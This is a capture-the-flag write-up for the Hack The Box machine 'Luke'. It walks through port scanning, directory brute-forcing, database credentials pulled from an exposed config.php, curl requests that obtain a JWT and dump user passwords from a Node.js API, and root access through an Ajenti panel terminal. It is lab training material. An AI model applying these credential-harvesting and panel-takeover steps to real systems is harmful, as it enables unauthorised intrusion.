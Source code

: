 ```yaml
---
layout: post
title: Luke - 10.10.10.137
difficulty: 6
---
```


_Write-up by Andrea Melis [@wild_boar](https://twitter.com/wild_boar)_

# USER

## Reconnaissance

### NMAP

As usual we always start with **Nmap** scanning:

<pre>root@pentestbox:~# nmap -sC -sV -oA luke 10.10.10.137

Starting Nmap 7.70 ( https://nmap.org ) at 2019-09-20 00:13 CEST
Nmap scan report for 10.10.10.137
Host is up (0.036s latency).
Not shown: 996 closed ports
PORT STATE SERVICE VERSION
<b>21/tcp open ftp vsftpd 3.0.3+ (ext.1)</b>
<b>22/tcp open ssh?</b>
<b>80/tcp open http</b>
<b>3000/tcp open http Node.js Express framework</b>
<b>8000/tcp open http Ajenti http control panel</b>

</pre>

It seems there is anonymoys **ftp** login, so we logged in and there is only one file
available, which download tell us:

<pre> $ cat for_Chihiro.txt
Dear Chihiro !!
As you told me that you wanted to learn Web Development and Frontend, I can
give you a little push by showing the sources of
the actual website I've created .
Normally you should know where to look but hurry up because I will delete
them soon because of our security policies !

Derry
</pre>

So it may look like there is an hidden website or page somewhere.
So, first of all we scanned all possible files and folder over the port 80 and 3000
which look like a website over 80 port:

![](./images/luke/port_80_luke.png)

And over port 3000 a simple node js api service:

![](./images/luke/port_3000_luke.png)

### DirBuster

With dirbuster and big.txt wordlist we found some interesting file such as:

<pre>
File found: /config.php - 200
Dir found: /css/ - 200
File found: /css/bootstrap.min.css - 200
File found: /css/scrolling-nav.css - 200File found: /css/signin.css - 200
</pre>

Where config.php retrieved us what it looks as db credentials:

<pre>
$dbHost = 'localhost'; $dbUsername = 'root'; $dbPassword =
'Zk6heYCyv6ZE9Xcg'; $db = "login"; $conn = new mysqli($dbHost,
$dbUsername, $dbPassword,$db) or die("Connect failed: %s\n". $conn ->
error);
</pre>

But those credentials were incorrect for the login.php and /management login
which we found with dirb.
So we start to look at the js api service. We needed to retrieve the available api
so we used dirb again over this port:

<pre>
 $dirb http://10.10.10.137:3000 -w /usr/share/wordlists/dirb/big.txt
-----------------
DIRB v2.22
By The Dark Raver
-----------------
START_TIME: Fri Sep 20 00:37:31 2019
URL_BASE: http://10.10.10.137:3000/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Not Stopping on warning messages
-----------------
GENERATED WORDS: 4612
---- Scanning URL: http://10.10.10.137:3000/ ----
+ http://10.10.10.137:3000/login (CODE:200|SIZE:13)
+ http://10.10.10.137:3000/Login (CODE:200|SIZE:13)
+ http://10.10.10.137:3000/users (CODE:200|SIZE:56)
-----------------
END_TIME: Fri Sep 20 00:40:28 2019
DOWNLOADED: 4612 - FOUND: 3
</pre>

So we have a login api and users api.
Users api needs and authenticaton token probably supplied by the /login api.
So first we tried to login we the credentials found in the config.php file.

<pre>
$ curl --header "Content-Type: application/json" \
> --request POST \
> --data '{"password":"Zk6heYCyv6ZE9Xcg", "username":"admin"}' \
> http://10.10.10.137:3000/login
{"success":true,"message":"Authentication
successful!","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2Vybm
FtZSI6ImFkbWluIiwiaWF0IjoxNTY4OTMyODcwLCJleHAiOjE1NjkwMTky
NzB9.NkXilej8x5JP2MOHRz3SDkgPs3AVz4YEmtg2s_H0siY"}
</pre>

**Success!!**

The post requests give us the access token, which we can use to query the /users
api:

<pre>
$ curl -X GET -H 'Authorization: Bearer
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwi
aWF0IjoxNTY4OTMyODcwLCJleHAiOjE1NjkwMTkyNzB9.NkXilej8x5JP2
MOHRz3SDkgPs3AVz4YEmtg2s_H0siY' http://10.10.10.137:3000/users/
[{"ID":"1","name":"Admin","Role":"Superuser"},
{"ID":"2","name":"Derry","Role":"Web Admin"},
{"ID":"3","name":"Yuri","Role":"Beta Tester"},
{"ID":"4","name":"Dory","Role":"Supporter"}]
</pre>

**Perfect!** We have users now, let’s try to query one user at time:

<pre>
$ curl -X GET \
> -H 'Authorization: Bearer
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwi
aWF0IjoxNTY4OTMyODcwLCJleHAiOjE1NjkwMTkyNzB9.NkXilej8x5JP2
MOHRz3SDkgPs3AVz4YEmtg2s_H0siY' \
> http://10.10.10.137:3000/users/Dory
{"name":"Dory","password":"5y:!xa=ybfe)/QD"}
{"name":"Derry","password":"rZ86wwLvx7jUxtch"}
bet@tester87
{"name":"Admin","password":"WX5b7)>/rp$U)FW"}
</pre>


In fact we discovered after several tries that the Derry credentials were correct
for the /management panel
And this is what looks like the management panel; we just have some files
config.php login.php which we already had:

![](./images/luke/after_login_luke.png)

But now we alse have config.json file! Which looks really interesting since
seems to be something related to ajenti page, which is the login page discovered
on port 8000:
This is what login page looks like:

![](./images/luke/ajenti_login_luke.png)

And this is otherwise what the config.json file shows on /management page:

![](./images/luke/json_luke.png)

What is immediately visible is the password field;which seems to be the admin
password for ajenti login.

<pre><b>password "KpMasng6S5EtTy9Z"</b></pre>

So Username root and password KpMasng6S5EtTy9Z:

![](./images/luke/logged_luke.png)

**Logged in!!**

# ROOT

This looks like Ajenti backend and after several google research we noticed that
there a “Terminal” options which it open a terminal with bash with the user
privileges, in our case guess what... root!!
So clicking on terminal and running a new one gave us a perfect shell with root
priv:

![](./images/luke/rooted_luke.png)


From here we can also of course create a reverse shell to our host machine but
the flag is already retrieved.


#### Thank you for reading this write-up. Feedback is appreciated! Happy hacking :) 

